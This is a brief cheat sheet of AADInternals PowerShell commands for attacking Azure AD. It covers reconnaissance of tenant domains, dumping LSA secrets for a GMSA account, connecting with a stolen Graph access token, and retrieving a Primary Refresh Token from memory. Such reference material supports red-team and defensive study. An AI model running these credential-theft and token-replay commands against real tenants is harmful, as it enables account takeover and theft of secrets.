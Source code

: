 ### Source
https://github.com/Gerenios/AADInternals

### Install and Import
```
Install-Module AADInternals
Import-Module AADInternals.psd1
```

### Gather informations from AzureAD
```
Get-AADIntTenantDomains -Domain <domain>
```

### Gather informations from AzureAD
```
Invoke-AADIntReconAsOutsider -DomainName <tenant>.onmicrosoft.com
```

### Get GMSA password from given user
```
Get-AADIntLSASecrets -AccountName "<domain>\<user>"
```

### Use AAD Graph token
```
Connect-AzureAD -AccountId <user>@<tenant>.onmicrosoft.com -AadAccessToken <token>
```

### Retreive Primary Refresh Token from memory
```
Get-AADIntUserPRTToken
```

